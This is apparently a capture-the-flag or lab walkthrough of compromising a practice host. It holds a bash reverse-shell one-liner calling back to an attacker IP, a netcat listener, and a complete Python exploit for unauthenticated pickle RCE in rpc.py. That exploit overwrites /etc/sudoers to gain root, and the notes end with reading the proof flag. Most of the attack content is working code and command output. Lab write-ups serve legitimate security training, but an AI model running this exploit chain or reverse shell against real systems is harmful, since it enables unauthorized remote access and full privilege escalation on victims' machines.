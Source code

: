 `Running all scans on 192.168.156.210`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`8000/tcp open  http-alt`

![[Pasted image 20240222114715.png]]

Get a reverse shell
`user@pc:/home/user$ sh -i >& /dev/tcp/192.168.45.222/4444 0>&1`

Catch and upgrade
`└─$ nc -nlvp 4444`         
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.217.210:56904.`
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

Run lse.sh

`pro020 Processes running with root permissions......................... yes!`
---
`START      PID     USER COMMAND`
`16:43      991     root python3 /opt/rpc.py

We see rpc.py under the opt folder `

![[Pasted image 20240222120228.png]]

Download the exploit and change the exec_command

`└─$ cat exploit.py`               
```

import requests
import pickle

# Unauthenticated RCE 0-day for https://github.com/abersheeran/rpc.py

HOST = "127.0.0.1:65432"

URL = f"http://{HOST}/sayhi"

HEADERS = {
    "serializer": "pickle"
}


def generate_payload(cmd):

    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)

    payload = pickle.dumps(PickleRce())

    print(payload)

    return payload


def exec_command(cmd):

    payload = generate_payload(cmd)

    requests.post(url=URL, data=payload, headers=HEADERS)


def main():
    exec_command('echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers')
    # exec_command('uname -a')


if __name__ == "__main__":
    main()
```

Upload this to the target
`└─$ python -m http.server 80`                                                       
`Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...`
`192.168.217.210 - - [22/Feb/2024 12:00:19] "GET /exploit.py HTTP/1.1" 200 -`

`user@pc:/tmp$ wget 192.168.45.222/exploit.py`
`wget 192.168.45.222/exploit.py`
`--2024-02-22 17:00:19--  http://192.168.45.222/exploit.py`
`Connecting to 192.168.45.222:80... connected.`
`HTTP request sent, awaiting response... 200 OK`
`Length: 706 [text/plain]`
`Saving to: ‘exploit.py’`

`exploit.py          100%[===================>]     706  --.-KB/s    in 0s`      

`2024-02-22 17:00:19 (97.7 MB/s) - ‘exploit.py’ saved [706/706]`

Run it
`user@pc:/tmp$ python3 exploit.py`
`python3 exploit.py`
`b'\x80\x04\x95N\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c3echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers\x94\x85\x94R\x94.'`

Check to see if it worked
`user@pc:/tmp$ sudo -l`
`sudo -l`
`User user may run the following commands on pc:`
    `(root) NOPASSWD: ALL`

`user@pc:/tmp$ sudo su -`
`sudo su -`
`root@pc:~# ls`
`ls`
`email4.txt  proof.txt  snap`
`root@pc:~# cat proof.txt`
`cat proof.txt`
`1a30344c78ca9474f54545a50ece5fac`


